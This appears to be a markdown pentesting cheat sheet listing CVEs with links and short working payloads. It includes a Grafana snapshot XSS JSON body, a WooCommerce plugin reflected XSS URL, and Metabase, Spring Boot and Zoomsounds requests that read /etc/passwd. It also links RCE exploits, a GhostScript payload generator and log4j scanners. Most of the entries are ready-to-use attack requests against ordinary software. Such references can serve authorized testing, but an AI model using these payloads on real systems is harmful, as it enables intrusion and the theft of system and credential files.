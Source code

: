 ## CVE-2020-11022/CVE-2020-11023

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

## CVE-2020-11110
https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

* version : Grafana v6.2.5

* authentication : v6.2.5 not required to be authenticated

* send post request to /api/snapshots with the following json body
```
{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```





## CVE-2021-24169
WordPress Plugin Advanced Order Export For WooCommerce 3.1.7 - Reflected Cross-Site Scripting (XSS)

```
wp-admin/admin.php?page=wc-order-export&tab=</script><script>alert(1)</script>
```

## CVE-2021-40875 
Improper Access Control in Gurock TestRail versions ≤ 7.2.0.3014 results in sensitive file exposure

* /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure hardcoded credentials, API keys, or other sensitive data.


## CVE-2021-26084 
Remote Code Execution on Confluence Servers

https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md

## CVE-2021–24563 Unauthenticated Stored XSS [Frontend Uploader <= 1.3.2]
https://medium.com/pentesternepal/cve-2021-24563-unauthenticated-stored-xss-frontend-uploader-1-3-2-8522e0890833


## CVE-2021-38647 is an unauthenticated RCE vulnerability effecting the OMI agent as root.
https://github.com/horizon3ai/CVE-2021-38647

## Metabase 敏感信息泄露 CVE-2021-41277
```
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host:
```








## Full Disclosed reports
https://seclists.org/fulldisclosure/




## CVE Finder
https://git-cve.system00-sec.com/?cve=CVE-2021-1056

## RCE 0-day for GhostScript 9.50 - Payload generator
https://github.com/duc-nt/RCE-0-day-for-GhostScript-9.50

## (CVE-2021-41765 | CVE-2021-41950 | CVE-2021-41951) 
https://www.horizon3.ai/multiple-vulnerabilities-in-resourcespace/

## Tool that helps to embed a PostScript file into a PDF in a way that GhostScript will run the PostScript code during the PDF processing
https://github.com/neex/ghostinthepdf

## CVE-2021-21234 Spring Boot Actuator Logview Directory Traversal
https://pyn3rd.github.io/2021/10/25/CVE-2021-21234-Spring-Boot-Actuator-Logview-Directory-Traversal/
```
http://localhost:8887/manage/log/view?filename=/etc/passwd&base=../../../../../
```


## CVE-2021-39316 WordPress Plugin DZS Zoomsounds 6.45 - Arbitrary File Read (Unauthenticated)
https://cxsecurity.com/issue/WLB-2021120012
```
http://localhost/MYzoomsounds/?action=dzsap_download&link=../../../../../../../../../../etc/passwd
```

## log4j
https://github.com/0xInfection/LogMePwn
https://github.com/adilsoybali/Log4j-RCE-Scanner


